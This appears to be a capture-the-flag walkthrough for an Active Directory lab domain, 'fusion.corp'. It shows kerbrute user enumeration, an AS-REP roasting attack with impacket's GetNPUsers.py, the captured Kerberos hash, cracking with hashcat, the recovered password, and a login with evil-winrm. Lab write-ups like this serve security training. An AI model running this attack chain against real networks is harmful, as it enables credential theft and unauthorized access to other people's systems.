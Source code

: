 [Kerbrute Tool](https://github.com/ropnop/kerbrute)

Install
```
go get github.com/ropnop/kerbrute
```

```bash
./kerbrute userenum -d 'fusion.corp' --dc 10.10.33.48 ~/users.txt
```

![image](https://user-images.githubusercontent.com/5285547/122769576-91eea780-d29c-11eb-9a3a-8066ab594014.png)


## User 1

```
lparker@fusion.corp
```

### Making a new users.txt file with just "lparker" our valid user name, I use a tool "GetNPUsers.py" to do a asreproast attack. 

```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py 'fusion.corp/' -usersfile ~/users.txt -no-pass -dc-ip 10.10.222.16 -format hashcat -outputfile hashes.asreproast
```

### We get the hash

```cat hashes.asreproast```                                                  

```
$krb5asrep$23$lparker@FUSION.CORP:86658453c7705714369e31d6bd1cd144$728e7c5e2ae3648d5b0b3056b3f76c611141091a620dd460ff30bc8c1dd140c156f671ce414e23c52b1101fa834989668947194ec5bcfb8131acd2ec4fadedb535b6d8695e3bc941a8256537840c167890adb420516882f74af905fce6ada1a7623d8ca7b916c7536edefb2f95c54fea38671d860aad2dd7b307d828a891aed3b9ebba49a24694fb15a61bcf1231a135283eeb754540d6083384a486c7b3e0b541dfc00cbf26d6d460525a52261d83c1a25c3e1bd5577010b987ca026937d0467886f9fe3eb91a790fcf0b6120d7a93d021851c4d4217d63bb9e0c0dc4401e1139d3dff01ada7d3871cd
```

### Crack the hash! 

```
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -O 
```

```
$krb5asrep$23$lparker@FUSION.CORP:86658453c7705714369e31d6bd1cd144$728e7c5e2ae3648d5b0b3056b3f76c611141091a620dd460ff30bc8c1dd140c156f671ce414e23c52b1101fa834989668947194ec5bcfb8131acd2ec4fadedb535b6d8695e3bc941a8256537840c167890adb420516882f74af905fce6ada1a7623d8ca7b916c7536edefb2f95c54fea38671d860aad2dd7b307d828a891aed3b9ebba49a24694fb15a61bcf1231a135283eeb754540d6083384a486c7b3e0b541dfc00cbf26d6d460525a52261d83c1a25c3e1bd5577010b987ca026937d0467886f9fe3eb91a790fcf0b6120d7a93d021851c4d4217d63bb9e0c0dc4401e1139d3dff01ada7d3871cd:!!abbylvzsvs2k6!
```

### Login

```bash
evil-winrm -i 10.10.222.16 -u lparker -p '!!abbylvzsvs2k6!'
```
